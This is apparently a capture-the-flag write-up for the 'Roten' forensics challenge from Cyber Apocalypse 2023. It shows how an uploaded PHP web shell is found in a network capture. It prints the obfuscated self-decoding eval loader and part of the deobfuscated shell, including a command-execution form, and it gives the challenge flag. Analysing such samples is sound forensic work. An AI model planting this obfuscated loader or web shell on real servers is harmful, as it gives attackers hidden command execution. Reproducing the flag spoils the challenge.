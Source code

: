 # Cyber Apocalypse 2023

## Roten

> The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyse, its up to you to save us.
>
>  Author: N/A
>
> [`forensics_roten.zip`](forensics_roten.zip)

Tags: _forensics_

## Solution
A wireshark capture accompanies that challenge. Browsing the capture one can fine a huge amount of requests to `galacticmap.php`. Next we search the packet where galacticmap.php was uploaded to get the code.

```php
$iyzQ5h8qf6 .= "\\o>\n u]d> wd ;  Gaoe : ettsssn\"= \$   \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <'  hnv\n {e >< n>\"\n  Ednn   aets.t.c  m{ \$oem0  d\"n('d\n,a1 ]L h/hce'vveemlS"; 
$iyzQ5h8qf6 .= "Ie }pi'b<ee <e  \n).<t l\" }  Tett m dsp\"c cof o  mw\"o)' []e s[  ds )  o'ot= abn=euTLca\n_l.r/cx(br   ) td o..\n  [re- u ft:>oconi d\$ on]d - "; 
$iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r    )\"d> a  e  '(nD s i /\nmomtl et de e?' w=[m e o]1  rc\$\$\"ohaurtd'='Sor a d<>occ>t <  ?>  dppc  d"; 
$iyzQ5h8qf6 .= "'ti t lc/\n/m/ae  y er=  ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh  oC-s -heom<apbip &p  [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; 
$iyzQ5h8qf6 .= " \ni.  \"sio  woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1  i ll2'd='oe'lpbf)d '\$.sr<cr\nl h  r . .in   "; 
for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; 
for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } 
$bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); 
$bhrTeZXazQ = "?>$bhrTeZXazQ"; 
eval( $bhrTeZXazQ ); 
```

Its obfuscated of course, but the script deobfuscates itself. After replacing the `eval` at the bottom with an echo we get the readable script. And sure enough, somewhere down the road we find a comment...

```php
$file = '';
if ($dir == NULL or !is_dir($dir)) {
        if (is_file($dir)) {
                echo "enters";
                $file = $dir;
                echo $file;
        }
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
echo "</form>";
```

... with the flag `HTB{W0w_ROt_A_DaY}`.